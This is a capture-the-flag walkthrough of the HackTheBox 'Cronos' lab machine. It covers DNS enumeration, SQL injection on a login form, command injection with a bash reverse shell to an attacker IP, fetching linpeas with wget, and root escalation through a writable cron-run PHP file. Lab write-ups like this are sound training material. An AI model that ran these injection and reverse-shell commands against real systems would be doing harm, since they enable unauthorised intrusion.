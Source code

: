 ```yaml
---
title: Hackthebox - Cronos (Medium)
date: 2023-03-24 12:00:00 +0100
categories: [HackTheBox, Write up]
tags: [linux, nmap, nslookup, dns, dig, wget, php, reverse shell, rce, sql injection]     # TAG names should always be lowercase
img_path: /img/HTB/Cronos/
image: Cronos.png
---
```


## Enumeration

### Nmap 

```zsh
┌──(root㉿kali)-[/home/desmond]
└─# nmap -sC -sV -A 10.10.10.13      
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-24 12:12 CDT
Nmap scan report for 10.10.10.13
Host is up (0.074s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18b973826f26c7788f1b3988d802cee8 (RSA)
|   256 1ae606a6050bbb4192b028bf7fe5963b (ECDSA)
|_  256 1a0ee7ba00cc020104cda3a93f5e2220 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=3/24%OT=22%CT=1%CU=32995%PV=Y%DS=2%DC=T%G=Y%TM=641DDA2
OS:0%P=aarch64-unknown-linux-gnu)SEQ(SP=105%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS
OS:=8)OPS(O1=M539ST11NW7%O2=M539ST11NW7%O3=M539NNT11NW7%O4=M539ST11NW7%O5=M
OS:539ST11NW7%O6=M539ST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=71
OS:20)ECN(R=Y%DF=Y%T=40%W=7210%O=M539NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=
OS:S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q
OS:=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A
OS:%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y
OS:%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T
OS:=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Let's start enumerating dns on port 53, we can do it using nslookup:

```terminal
nslookup 10.10.10.13 10.10.10.13
13.10.10.10.in-addr.arpa        name = ns1.cronos.htb.
```
We discovered the domain name cronos.htb, as always let's add it on `/etc/hosts`.

Now we can use dig to enumerate any dns record with
`dig any victim.com @<DNS_IP>`, in our case:

```terminal
dig any cronos.htb @10.10.10.13

; <<>> DiG 9.18.8-1-Debian <<>> any cronos.htb @10.10.10.13
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 19215
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 3, AUTHORITY: 0, ADDITIONAL: 2

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;cronos.htb.                    IN      ANY

;; ANSWER SECTION:
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13

;; ADDITIONAL SECTION:
ns1.cronos.htb.         604800  IN      A       10.10.10.13

;; Query time: 104 msec
;; SERVER: 10.10.10.13#53(10.10.10.13) (TCP)
;; WHEN: Fri Mar 24 12:18:44 CDT 2023
;; MSG SIZE  rcvd: 131

```
To learn more on dns enumeration [](https://book.hacktricks.xyz/network-services-pentesting/pentesting-dns).

Doing so we discovered the admin subdomain `admin.crono.htb`.
Now our `/etc/hosts` row is like that:
`10.10.10.13 cronos.htb admin.cronos.htb`
Vising cronos.htb is useless, instead on the admin subdomain we have a login form, and the user is vulnerable to sql injection.
Once in, we can use two commands ping and traceroute, and there is a rce just by doing ; at the end, and we can add our code. I got a reverse shell with
```
8.8.8.8; /bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.18/2332 0>&1"
```

Now we are `www-data` we have to priv esc.

We use a trick to get a better shell
```terminal
www-data@cronos:/tmp$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@cronos:/tmp$ ^Z
zsh: suspended  nc -lvnp 2332
                                                                                                                                                       
┌──(root㉿kali)-[/home/desmond]
└─# stty raw -echo ;fg
[1]  + continued  nc -lvnp 2332
                               reset
reset: unknown terminal type unknown
Terminal type? screen

```
 Now we can use arrows and tab completition.

 Since we have wget, lets host on our machine a python server with `python -m http.server 2323` and get linpeas.sh on the target machine:
 ```terminal
 www-data@cronos:/tmp$ wget http://10.10.14.18:2323/linpeas.sh
--2023-03-24 19:31:37--  http://10.10.14.18:2323/linpeas.sh
Connecting to 10.10.14.18:2323... connected.
HTTP request sent, awaiting response... 200 OK
Length: 765823 (748K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 747.87K   467KB/s    in 1.6s    

2023-03-24 19:31:39 (467 KB/s) - 'linpeas.sh' saved [765823/765823]

 ```
Let's give it permissions to get executed with `chmod +x linpea.sh` and run it `./linpeas.sh`.

Looking at linpeas.sh result we see we have a yellow line (the most dangerous one):
```                                                                              * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1 ```
So we have a cronjob run as root that launch  `/var/www/laravel/artisan` with php.

Checking the permission for `/var/www/laravel/artisan` we see that www-data can is the owner of the file, so we can change it by adding a php reverse shell, that will run as root.

And after a while we'll recive the root shell on our machine!



